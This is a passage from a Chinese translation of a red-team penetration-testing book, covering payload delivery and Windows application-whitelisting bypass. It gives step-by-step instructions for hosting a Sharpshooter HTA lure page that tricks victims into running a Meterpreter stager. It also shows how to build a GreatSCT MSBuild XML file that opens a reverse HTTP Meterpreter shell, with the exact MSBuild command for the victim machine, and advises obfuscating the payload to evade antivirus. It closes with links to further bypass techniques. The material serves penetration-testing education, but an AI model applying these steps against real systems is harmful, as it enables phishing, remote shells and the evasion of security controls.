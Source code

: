     * mv output/* /var/www/html/
* 为你的 payload 建立一个 Meterpreter 处理程序（handler）

配置和开发了恶意软件后，将其移至 Web 目录（malware.hta，malware.html，malware.payload），启动 apache2 服务，然后启动你的 Meterpreter 处理程序。你现在已经做好准备，通过诱导受害者访问你的恶意站点来对其发动社会工程学攻击！下图中给出的示例是 Sharpshooter 的 SharePoint 在线模板。当受害者使用 IE/Edge 浏览器访问你的恶意网页时，HTA 会自动下载并提示运行。一旦显示了提示并选择运行的话，stager payload 就会运行，下载辅助 payload（满足沙箱控件的情况下），并在内存中执行我们的 Meterpreter payload。

![](img/chapter_7/7-4.png)

补充信息：
* https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/ 
* https://github.com/mdsecactivebreach/SharpShooter

## 应用程序白名单绕过
我们已经讨论了在不运行 PowerShell 代码的情况下触发 PowerShell 的不同方法，但如果你无法在 Windows 系统上运行自定义二进制文件，该怎么办？“应用绕过”的概念就是查找可以执行我们 payload 的默认 Windows 二进制文件。我们一直受限于一些环境因素比如域控（DC）的锁定机制，只能进行有限的代码执行。我们可以使用一些不同的 Windows 文件来绕过这些限制，让我们来看看它们中的几个。

一个经常被讨论的可以用于绕过应用白名单的 Windows 二进制文件是 `MSBuild.exe`。什么是 `MSBuild.exe`，它有什么作用？ MSBuild 是 .NET 框架中的一个默认应用，它是使用 XML 格式的项目文件构建 .NET 应用程序的平台。我们可以对 MSBuild 使用 XML 项目文件格式这个特性进行利用，我们可以使用名为 GreatSCT 的工具创建我们自己的恶意 XML 项目文件来执行 Meterpreter 会话，从而利用此特性。

[GreatSCT](https://github.com/GreatSCT/GreatSCT) 有我们可以使用的各种应用白名单绕过的方式，但我们只将介绍 MSBuild。在此示例中，我们将创建一个托管 reverse_http Meterpreter 会话的恶意 XML 文件。这将要求我们将 XML 文件写入受害系统并使用 MSBuild 来执行该 XML 文件：
* git clone https://github.com/GreatSCT/GreatSCT.git /opt/ 
* cd /opt/GreatSCT
* python3 ./gr8sct.py
* [4] MSBUILD/msbuild.cfg
* 填写你的主机IP[0]和端口[1]
* 生成
* 使用 Metasploit 创建一个新的 windows/meterpreter/reverse_http 的监听器

![](img/chapter_7/7-5.png)

在我们的 Kali 实例中，我们使用 GreatSCT 来创建 `shellcode.xml` 文件，该文件包含构建信息和一个 Meterpreter 反向 http shell。需要将此文件移动到受害系统并使用 MSBuild 进行调用。

\*注意：我观察到 GreatSCT 项目正在 [develop 分支](https://github.com/GreatSCT/GreatSCT/tree/develop)上进行活跃的开发，其中包括 https Meterpreter 和其他应用程序白名单绕过命令执行。我估计在本书发布之前，就会被合并到 master 分支。

![](img/chapter_7/7-6.png)

在 Windows 受害者计算机上执行文件调用后，使用 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe shellcode.xml` 命令，.NET 将开始构建 shellcode.xml 文件。在此过程中，将在受害者计算机上生成一个反向 http Meterpreter 会话来绕过任何应用程白名单。你可能希望编辑 shellcode.xml 文件以插入经过混淆的 payload，因为 Meterpreter 默认的 payload 很可能会触发杀毒软件。

![](img/chapter_7/7-7.png)

可以使用许多种不同的方法来进行应用程序白名单绕过，光这一部分内容就足以写成一本书。以下是一些额外的资料：
* 使用 Windows 默认可执行文件的大量示例：
    * https://github.com/api0cradle/UltimateAppLockerByPassList
* 使用 REGSRV32 和 PowerShell Empire：
    * https://www.blackhillsinfosec.com/evade-application-whitelisting-using-regsvr32/
* 通过 Excel.Application 的 RegisterXLL() 方法执行 DLL:
    * https://rileykidd.com/2017/08/03/application-whitelist-bypass-using-XLL-and-embedded-shellcode/
* 利用 INF-SCT 获取并执行绕过、规避查杀和持久化技术：
    * https://bohops.com/2018/03/10/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence-part-2/
* 利用 Regsvr32 绕过 Applocker：
    * https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
